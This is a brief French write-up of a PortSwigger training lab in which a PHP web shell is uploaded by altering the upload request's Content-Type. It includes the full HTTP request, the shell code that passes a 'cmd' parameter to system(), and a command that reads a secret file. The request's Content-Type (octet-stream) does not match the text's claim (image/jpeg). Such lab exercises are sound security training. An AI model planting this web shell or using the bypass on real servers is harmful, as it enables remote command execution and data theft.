 # Lab

https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-content-type-restriction-bypass

## Solution

On peut upload un fichier php en changeant le content-type de la requête.

```http
POST /my-account/avatar HTTP/2
Host: 0a9200ff0373610383c2974d00a3001a.web-security-academy.net
Cookie: session=KvjjIaBBDrHo6oIK62dxTkrK9DZKPz2F
Content-Length: 745
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="117", "Not;A=Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://0a9200ff0373610383c2974d00a3001a.web-security-academy.net
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary6BhPUzcn18VSZvdB
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9200ff0373610383c2974d00a3001a.web-security-academy.net/my-account?id=wiener
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9

------WebKitFormBoundary6BhPUzcn18VSZvdB
Content-Disposition: form-data; name="avatar"; filename="simple.php"
Content-Type: application/octet-stream

<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2&<1');
    }
?>
</pre>
</body>
</html>
------WebKitFormBoundary6BhPUzcn18VSZvdB
Content-Disposition: form-data; name="user"

wiener
------WebKitFormBoundary6BhPUzcn18VSZvdB
Content-Disposition: form-data; name="csrf"

CRvnoD2DCDOuzUZ6WHOZzKWbbiJRmWfJ
------WebKitFormBoundary6BhPUzcn18VSZvdB--
```

Le shell est bien upload avec le `Content-Type: image/jpeg` :

```html
The file avatars/simple.php has been uploaded.<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>
```

Maintenant on accède au shell et on exécute :

```bash
$~ cat /home/carlos/secret
$~ jIhEBwCJT01IG7ZV0VKfSoDIB42z8fls
```